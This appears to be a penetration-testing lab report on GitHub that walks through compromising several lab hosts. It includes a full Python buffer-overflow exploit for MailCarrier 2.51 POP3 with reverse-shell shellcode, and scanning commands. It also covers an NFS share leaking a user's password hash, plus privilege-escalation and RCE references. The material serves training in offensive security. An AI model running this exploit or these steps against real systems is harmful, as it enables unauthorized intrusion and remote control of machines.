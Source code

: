 ### Server IP Address	Ports Open
192.168.55.89	TCP:21,80,135,139,445,1978,1979,1980,8089 
![image](https://user-images.githubusercontent.com/9059079/121094122-18df5280-c7bc-11eb-9257-056ea3723c60.png)
  ```
A vulnerability in the exacqVision Enterprise System Manager (ESM) v5.12.2 application whereby unauthorized privilege escalation can potentially be achieved. This vulnerability impacts exacqVision ESM v5.12.2 and all prior versions of ESM running on a Windows operating system. This issue does not impact any Windows Server OSs, or Linux deployments with permissions that are not inherited from the root directory. Authorized Users have ‘modify’ permission to the ESM folders, which allows a low privilege account to modify files located in these directories. An executable can be renamed and replaced by a malicious file that could connect back to a bad actor providing system level privileges. A low privileged user is not able to restart the service, but a restart of the system would trigger the execution of the malicious file. This issue affects: Exacq Technologies, Inc. exacqVision Enterprise System Manager (ESM) Version 5.12.2 and prior versions; This issue does not affect: Exacq Technologies, Inc. exacqVision Enterprise System Manager (ESM) 19.03 and above.
```

### System IP: 192.168. 55.103
![image](https://user-images.githubusercontent.com/9059079/121094160-2dbbe600-c7bc-11eb-93b2-6ae00a92cac8.png)
Vulnerability Explanation:  CVE-2019–11395, Win10 MailCarrier version 2.51 POP3 User remote buffer overflow exploit. https://www.exploit-db.com/exploits/47554
Vulnerability Fix: No more version with patch. Should remove it from OS. 
Proof of Concept Code Here: 
# Exploit Title: Win10 MailCarrier 2.51 - 'POP3 User' Remote Buffer Overflow
# Date: 2019-10-01
# Author: Lance Biggerstaff
# Original Exploit Author: Dino Covotsos - Telspace Systems
# Vendor Homepage: https://www.tabslab.com/
# Version: 2.51
# Tested on: Windows 10

#!/usr/bin/python

import sys
import socket
import time

#msfvenom -p windows/shell/reverse_tcp lhost=IP_ADDRESS lport=LISTENING_PORT -b '\x00\xd9' -f python

buf =  b""
buf += b"\x29\xc9\x83\xe9\xa7\xe8\xff\xff\xff\xff\xc0\x5e\x81"
buf += b"\x76\x0e\xf4\x88\x6f\xbe\x83\xee\xfc\xe2\xf4\x08\x60"
buf += b"\xe0\xbe\xf4\x88\x0f\x8f\x26\x01\x8a\xda\x7f\xda\x5f"
buf += b"\x35\xa6\x84\xe4\xec\xe0\x87\xd8\xf4\xd2\xb9\x90\x35"
buf += b"\x86\xa0\x5e\x7e\x58\xb4\x0e\xc2\xf6\xa4\x4f\x7f\x3b"
buf += b"\x85\x6e\x79\xbd\xfd\x80\xec\x7f\xda\x7f\x35\xb6\xb4"
buf += b"\x38\xbf\x24\x03\x2f\xc6\x71\x48\x1b\xf2\xf5\x58\xe4"
buf += b"\xe6\xd4\xd8\x6e\x6d\x7f\xc0\x77\x3b\x3d\xfc\x53\x8f"
buf += b"\x0b\xc1\xe4\x8a\x7f\x89\xb9\x8f\x34\x24\xae\x71\xf9"
buf += b"\x89\xa8\x86\x14\xfd\x9b\xbd\x89\x70\x54\xc3\xd0\xfd"
buf += b"\x8f\xe6\x7f\xd0\x4b\xbf\x27\xee\xe4\xb2\xbf\x03\x37"
buf += b"\xa2\xf5\x5b\xe4\xba\x7f\x89\xbf\x37\xb0\xac\x4b\xe5"
buf += b"\xaf\xe9\x36\xe4\xa5\x77\x8f\xe6\xab\xd2\xe4\xac\x1d"
buf += b"\x08\x90\x41\x0b\xd5\x07\x8d\xc6\x88\x6f\xd6\x83\xfb"
buf += b"\x5d\xe1\xa0\xe0\x23\xc9\xd2\x8f\xe6\x56\x0b\x58\xd7"
buf += b"\x2e\xf5\x88\x6f\x97\x30\xdc\x3f\xd6\xdd\x08\x04\xbe"
buf += b"\x0b\x5d\x05\xb4\x9c\x48\xc7\xad\xc3\xe0\x6d\xbe\xe5"
buf += b"\xd4\xe6\x58\xa4\xd8\x3f\xee\xb4\xd8\x2f\xee\x9c\x62"
buf += b"\x60\x61\x14\x77\xba\x29\x9e\x98\x39\xe9\x9c\x11\xca"
buf += b"\xca\x95\x77\xba\x3b\x34\xfc\x65\x41\xba\x80\x1a\x52"
buf += b"\x1c\xef\x6f\xbe\xf4\xe2\x6f\xd4\xf0\xde\x38\xd6\xf6"
buf += b"\x51\xa7\xe1\x0b\x5d\xec\x46\xf4\xf6\x59\x35\xc2\xe2"
buf += b"\x2f\xd6\xf4\x98\x6f\xbe\xa2\xe2\x6f\xd6\xac\x2c\x3c"
buf += b"\x5b\x0b\x5d\xfc\xed\x9e\x88\x39\xed\xa3\xe0\x6d\x67"
buf += b"\x3c\xd7\x90\x6b\x77\x70\x6f\xc3\xdc\xd0\x07\xbe\xb4"
buf += b"\x88\x6f\xd4\xf4\xd8\x07\xb5\xdb\x87\x5f\x41\x21\xdf"
buf += b"\x07\xcb\x9a\xc5\x0e\x41\x21\xd6\x31\x41\xf8\xac\x60"
buf += b"\x3b\x84\x77\x90\x41\x1d\x13\x90\x41\x0b\x89\xac\x97"
buf += b"\x32\xfd\xae\x7d\x4f\x78\xda\x1c\xa2\xe2\x6f\xed\x0b"
buf += b"\x5d\x6f\xbe"

jmpesp = '\x23\x49\xA1\x0F'

# buffer length depends on length of source ip address, 5095 works for xxx.xxx.xx.x, you may need to tweak the length up or down
#buffer = '\x41' * 5093  + jmpesp + '\x90' * 20 + buf + '\x43' * (5096 - 4 - 20 - 1730)
buffer = '\x41' * 5094  + jmpesp + '\x90' * 20 + buf + '\x43' * (5096 - 4 - 20 - 1730)



#buffer = '\x41' * 5095  + jmpesp + '\x90' * 20 + buf + '\x43' * (5096 - 4 - 20 - 1730)
#buffer = '\x41' * 5096  + jmpesp + '\x90' * 20 + buf + '\x43' * (5096 - 4 - 20 - 1730)
#buffer = '\x41' * 5097  + jmpesp + '\x90' * 20 + buf + '\x43' * (5096 - 4 - 20 - 1730)

print "[*] MailCarrier 2.51 POP3 Buffer Overflow in USER command\r\n"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect(("192.168.55.103", 2110))
print s.recv(1024)
s.send('USER ' + buffer + '\r\n')
print s.recv(1024)
s.send('QUIT\r\n')
s.close()
time.sleep(1)
print "[*] Done, but if you get here the exploit failed!"
            

Proof Screenshot Here:
 
Proof.txt Contents:
fb13963c4fdbfe2454937b590165799c
Additional screenshot:
nmap –sV –sC –oA nmap 192.168.55.103 
![image](https://user-images.githubusercontent.com/9059079/121094216-475d2d80-c7bc-11eb-8cc0-40d5aacdb8d2.png)

Found pop3 server with MailCarrier2.51 by the NC  192.168.55.103 2110 
Search for Mailcarrier2.51 from the searchexploit and found Remote Buffer Overflow in "USER" command(POP3)
![image](https://user-images.githubusercontent.com/9059079/121094271-5f34b180-c7bc-11eb-9900-5bee4496ba4a.png)
Started building Attack code and create Windows Reverse TCP Payload first as being suggested by the exploit code. 

![image](https://user-images.githubusercontent.com/9059079/121094284-678cec80-c7bc-11eb-9346-0d98c8ad9941.png)
![image](https://user-images.githubusercontent.com/9059079/121094291-69ef4680-c7bc-11eb-8db6-16081260ed13.png)

The buffer length needs to be adjusted because of the length of IP address. Mine needs 5094 - 192.168.19.55
![image](https://user-images.githubusercontent.com/9059079/121094301-6f4c9100-c7bc-11eb-87db-4a79b26d786c.png)
Open the Multi handler of Meatasploit to receive the reverse connection. 

![image](https://user-images.githubusercontent.com/9059079/121094318-75db0880-c7bc-11eb-9193-a1201dd27800.png)

Run the developed python attack code against the target. 
 
Got the proof.txt

### System IP: 192.168. 55.104

![image](https://user-images.githubusercontent.com/9059079/121094337-7f647080-c7bc-11eb-9d5c-9b69ad80fc45.png)
```Additional info about where the initial shell was acquired from
Vulnerability Explanation: OpenNetAdmin 18.1.1 - Remote Code Execution
OpenNetAdmin is a Network Management application that provides a database of managed inventory of IPs, subnets, and hosts in a network with a centralized AJAX web interface. The application is an Opensource written in PHP; you can view the source code on GitHub “ONA Project.”
https://medium.com/r3d-buck3t/remote-code-execution-in-opennetadmin-5d5a53b1e67
Vulnerability Fix: Patch available. 
Severity: High
Proof of Concept Code Here: 
https://github.com/amriunix/ona-rce
Local.txt Proof Screenshot:
```
![image](https://user-images.githubusercontent.com/9059079/121094393-930fd700-c7bc-11eb-9060-9b94b8c9a707.png)
51ecb2048af0f06309f970402b0a6920

Given nmap, 80, 85 and 8080 for Web had been scanned by gobuster and nikto and visited http://192.168.55.104/webdemo which is OPENETADMIN
gobuster dir -u http://192.168.55.104 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
![image](https://user-images.githubusercontent.com/9059079/121094415-9dca6c00-c7bc-11eb-92b4-0c1786858162.png)
![image](https://user-images.githubusercontent.com/9059079/121094421-a02cc600-c7bc-11eb-9b85-c96b5ae09dda.png)

All pages had been visited and turned out webdemo page is OpenNetAdmin version 18.1.1 
Search for the exploit from searchexploit and found the Remote Code Execution exploit. 
![image](https://user-images.githubusercontent.com/9059079/121094452-ad49b500-c7bc-11eb-8de6-07bbbe15799b.png)
Search the exploit code on github: https://github.com/amriunix/ona-rce
Ran it and got the shell. 
![image](https://user-images.githubusercontent.com/9059079/121094466-b20e6900-c7bc-11eb-85c9-5928a14d2b28.png)
Read local.txt as below
![image](https://user-images.githubusercontent.com/9059079/121094479-b6d31d00-c7bc-11eb-9dbf-2b3e4d607dc6.png)
![image](https://user-images.githubusercontent.com/9059079/121094489-b9357700-c7bc-11eb-9dff-3f021b461bd8.png)
![image](https://user-images.githubusercontent.com/9059079/121094493-baff3a80-c7bc-11eb-8200-d628fca28d80.png)

### System IP: 192.168.55.106
![image](https://user-images.githubusercontent.com/9059079/121094520-c6eafc80-c7bc-11eb-9d5f-34193cf5cf27.png)
```
Vulnerability Explanation: Anonymous NFS shares and Backup File Disclosure. Misconfiguration to share the sensitive Blakely DB containing SHA512crypt password. Brute
Vulnerability Fix: N/A
Severity: N/A
Proof of Concept Code Here: 
Mount: 192.168.55.106:/var/backup/spwd.db
```
![image](https://user-images.githubusercontent.com/9059079/121094540-ceaaa100-c7bc-11eb-97a9-eb1b8ce099b1.png)
![image](https://user-images.githubusercontent.com/9059079/121094549-d23e2800-c7bc-11eb-95e1-b622d46d1003.png)
![image](https://user-images.githubusercontent.com/9059079/121094573-d8cc9f80-c7bc-11eb-86d2-60dc877ec05e.png)
![image](https://user-images.githubusercontent.com/9059079/121094581-dbc79000-c7bc-11eb-90e5-b455c8c8d7eb.png)
![image](https://user-images.githubusercontent.com/9059079/121094585-de29ea00-c7bc-11eb-92c8-c4ec9c63699b.png)
```
      Read the spwd.db with VIM and found the interesting information for user, Frank with sha512crypt hash which usually used on Linux Password hash.
frank^@$6$12lZME5AbCMhVKwN$0lGJiPW9rlH0bxQBL4JCdQGLd4KAuoWKxr26ZTRC/tTGnM8RTRNJUwW78K.r0KBw.s7r2OoYqbQM6hNyOI1eb1
```
![image](https://user-images.githubusercontent.com/9059079/121094594-e4b86180-c7bc-11eb-885d-9b69906bade7.png)
![image](https://user-images.githubusercontent.com/9059079/121094601-e71abb80-c7bc-11eb-98f3-ee4eea8101f2.png)
![image](https://user-images.githubusercontent.com/9059079/121094607-e8e47f00-c7bc-11eb-8c83-7bb8d61f6fbb.png)
![image](https://user-images.githubusercontent.com/9059079/121094615-ebdf6f80-c7bc-11eb-8318-759650c43afb.png)

```
Vulnerability Exploited: Kernel Local Privilege Escalation 
Vulnerability Explanation:  CVE-2020-1749, Exploits a race and use-after-free vulnerability in the FreeBSD kernel IPv6 socket handling. A missing synchronization lock in the IPV6_2292PKTOPTIONS option handling in setsockopt permits racing ip6_setpktopt access to a freed ip6_pktopts struct. This exploit overwrites the ip6po_pktinfo pointer of a ip6_pktopts struct in freed memory to achieve arbitrary kernel read/write.
https://packetstormsecurity.com/files/158695/FreeBSD-ip6_setpktopt-Use-After-Free-Privilege-Escalation.html
Vulnerability Fix: Patched. 
```
![image](https://user-images.githubusercontent.com/9059079/121094630-f39f1400-c7bc-11eb-98cd-858913c0e7ed.png)
![image](https://user-images.githubusercontent.com/9059079/121094648-f8fc5e80-c7bc-11eb-92c5-e05d9edc7bb7.png)
![image](https://user-images.githubusercontent.com/9059079/121094655-fb5eb880-c7bc-11eb-9b56-df9ea405b9bd.png)

![image](https://user-images.githubusercontent.com/9059079/121094667-fdc11280-c7bc-11eb-9ef5-1f92c9f2d510.png)
![image](https://user-images.githubusercontent.com/9059079/121094679-00236c80-c7bd-11eb-849e-391113196fa4.png)
![image](https://user-images.githubusercontent.com/9059079/121094693-0285c680-c7bd-11eb-9aed-266e832bb26a.png)









![image](https://user-images.githubusercontent.com/9059079/121094563-d5391880-c7bc-11eb-9912-ffef75ad7b7f.png)


